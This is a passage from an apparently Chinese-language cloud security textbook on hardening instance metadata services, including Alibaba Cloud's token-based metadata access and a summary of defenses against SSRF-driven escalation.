#### 零信任元数据访问

未来的元数据服务可能引入基于身份的访问控制——不是"在实例上就能访问"，而是"只有特定进程/用户才能访问特定端点"。

#### 阿里云ECS元数据安全增强

阿里云在2023年后逐步引入了类似IMDSv2的增强模式：

```bash
# 阿里云增强模式元数据访问
# 需要先获取token
TOKEN=$(curl -X PUT \
  "http://100.100.100.200/latest/api/token" \
  -H "X-ecs-metadata-token-ttl-seconds: 300")

# 使用token访问
curl -H "X-ecs-metadata-token: $TOKEN" \
  http://100.100.100.200/latest/meta-data/
```

### 19.3.11 本节要点



云元数据服务安全的核心认知：**元数据服务本身不是漏洞，它是攻击者从SSRF等初始漏洞升级为云环境全面控制的桥梁**。防御的关键不在于禁用元数据服务（那会破坏云功能），而在于切断这个升级路径的每一环——阻止SSRF、限制凭据权限、监控异常使用、最小化暴露面。
